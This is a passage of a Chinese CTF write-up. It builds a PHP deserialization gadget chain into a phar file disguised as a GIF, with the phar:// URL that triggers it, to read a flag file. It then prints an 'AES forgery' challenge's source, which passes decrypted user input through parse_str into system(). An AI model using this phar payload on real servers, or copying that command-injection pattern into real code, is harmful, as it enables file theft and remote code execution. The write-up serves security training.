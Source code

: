 > ` Sh0w `类中的` __destruct `方法会在对象销毁时自动触发

> 构造利用链：` Sh0w `：` __destruct `调用` S6ow `中的` _show `，从而触发` __call `，再触发` __get `，然后会执行` echo `方法，触发` __toString `方法，可以读取文件

- 构造的paylaod如下：

```php
<?php
include('class.php');
$r1 = new Sh0w();
$r2 = new Show();
$r3 = new S6ow();
$r2 -> source = '/flag.txt';
$r3 -> file = $r2;
$r3 -> params = array("_show" => "file_get");
$r1 -> str = $r3;
$phar = new Phar('rdd.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$phar -> setMetadata($r1);
$phar -> stopBuffering();
copy("rdd.phar","rdd.gif");
?>
```

- 最后利用phar协议读取即可

``` http
http://ip:port/file.php?file=Phar:///var/www/html/upload/filename.jpg
```

---

### AES伪造

- 题目是AES伪造，读取源码
```php
<?php 
error_reporting(0);
include 'include.php';
if(isset($_GET['s'])){
    $s=$_GET['s'];
    if(strlen($s)!=96){
        die('s length must be 96!');
    }
    $s=decryptString($s); //mode_cbc
    print($s);
    parse_str(substr($s,16));
    if($uu=='admin'){
        if(file_get_contents($ff)=='phpinfo'){
            echo $ccc;
            system($ccc);
        }
    }

}
else
{
    highlight_file(__FILE__);
    print('<br>"Welcome to the code system!This is a test string" => '.ecryptdString('Welcome to the code system!This is a test string'));
    
}
?>

```
